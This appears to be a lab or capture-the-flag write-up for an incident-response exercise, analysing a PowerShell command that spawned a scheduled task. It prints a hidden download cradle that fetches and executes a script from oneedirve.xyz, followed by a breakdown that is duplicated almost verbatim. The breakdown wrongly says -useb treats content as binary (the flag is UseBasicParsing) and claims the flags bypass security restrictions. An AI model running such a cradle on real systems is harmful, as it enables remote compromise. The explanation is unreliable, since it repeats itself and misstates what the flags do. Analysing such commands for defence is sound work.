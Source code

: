 ##### Question and Answers section:

- What is the name of the parent process of the `cmd.exe` process that executed the scheduled task creation?
![](/assets/img/Pasted image 20240502064519.png)

`->` Parent command line:
```c
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -nop -windowstyle hidden iex(iwr http://www.oneedirve.xyz/321c3cf/INSTALL.txt -useb)
```

Breakdown:
```c
Let's break down this command:

1. `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"`: This is the path to the PowerShell executable (`powershell.exe`). It specifies the location of the PowerShell executable file on the system.

2. `-nop`: This parameter stands for "NoProfile" and instructs PowerShell not to load user profiles. It speeds up the startup process by skipping the loading of user-specific settings and configurations.

3. `-windowstyle hidden`: This parameter specifies that the PowerShell window should be hidden when the script is executed. This makes the script less noticeable to the user.

4. `iex`: This is a shorthand for `Invoke-Expression`, a PowerShell cmdlet used to execute commands or scripts. It evaluates the string provided as a command or expression and executes it.

5. `(iwr http://www.oneedirve.xyz/321c3cf/INSTALL.txt -useb)`: This is the command or expression being executed by `iex`. It uses `iwr` (Invoke-WebRequest) to download the contents of the specified URL (`http://www.oneedirve.xyz/321c3cf/INSTALL.txt`) and the `-useb` parameter ensures that the content is treated as binary. The downloaded content is then passed to `iex` for execution, effectively executing the script retrieved from the URL.

In summary, this command launches PowerShell with specific parameters and executes a command to download and execute a script from a remote URL. The parameters are configured to minimize user interaction, avoid displaying output, and bypass security restrictions. This command structure is commonly used in malicious activities for downloading and executing payloads from the internet.


What''s '-useb' for?
1. `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"`: This is the path to the PowerShell executable (`powershell.exe`). It specifies the location of the PowerShell executable file on the system.

2. `-nop`: This parameter stands for "NoProfile" and instructs PowerShell not to load user profiles. It speeds up the startup process by skipping the loading of user-specific settings and configurations.

3. `-windowstyle hidden`: This parameter specifies that the PowerShell window should be hidden when the script is executed. This makes the script less noticeable to the user.

4. `iex`: This is a shorthand for `Invoke-Expression`, a PowerShell cmdlet used to execute commands or scripts. It evaluates the string provided as a command or expression and executes it.

5. '`(iwr http://www.oneedirve.xyz/321c3cf/INSTALL.txt -useb)`': This is the command or expression being executed by `iex`. It uses `iwr` (Invoke-WebRequest) to download the contents of the specified URL ('`http://www.oneedirve.xyz/321c3cf/INSTALL.txt`') and the '-useb' parameter ensures that the content is treated as 'binary'. The downloaded content is then passed to `iex` for execution, effectively executing the script retrieved from the URL.

```